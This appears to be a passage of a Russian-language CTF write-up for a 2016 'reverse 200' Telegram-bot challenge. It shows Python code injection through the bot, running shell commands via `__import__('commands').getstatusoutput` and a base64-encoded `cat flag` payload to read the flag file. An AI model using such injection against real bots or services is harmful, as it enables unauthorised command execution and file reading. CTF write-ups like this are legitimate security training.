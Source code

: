 Таким образом я вижу что рядом с ботом лежим файл с флагом. Особенность того способа что я применил для получения вывода в том что резульат выполнения команды это tuple состоящая из двух частей, в первой выводится код выполнеия команды, затем цельная строка с выводом результатов команды:

```python
>>> __import__('commands').getstatusoutput('ls -al')
(0, 'информация о списке файлов в директории в одну строку без переносов')
```

Мы можем теперь выполнить команду на получение содержимого файла:

```
echo -e "__import__('commands').getstatusoutput('cat flag')[1]" | base64
```

И после выполнения данной команды в окне с ботом, получаем наш заветный флаг!

 ![get_flag_bot](https://github.com/b1n4ry4rms/CTFs/blob/master/2016/hackyou.ctf.su/reverse_200_telebot/imgs/get_flag_bot.png)

И заветные 200 очков. Да и во флаге есть скрытый смысл! Ибо это правда - боты в тренде! 

P.S. В ходе CTF некоторые люди стали отправлять от имени бота всякую гадость и организаторам пришлось ограничить длину выполняемой команды до 15 символов, что соответственно сделало неработоспособным мое решение, но самое главное до этих инцидентов, я успел получить флаг. Флаг на изображени выше он выделен в окне чата c ботом.

**Автор: n0z3r0**
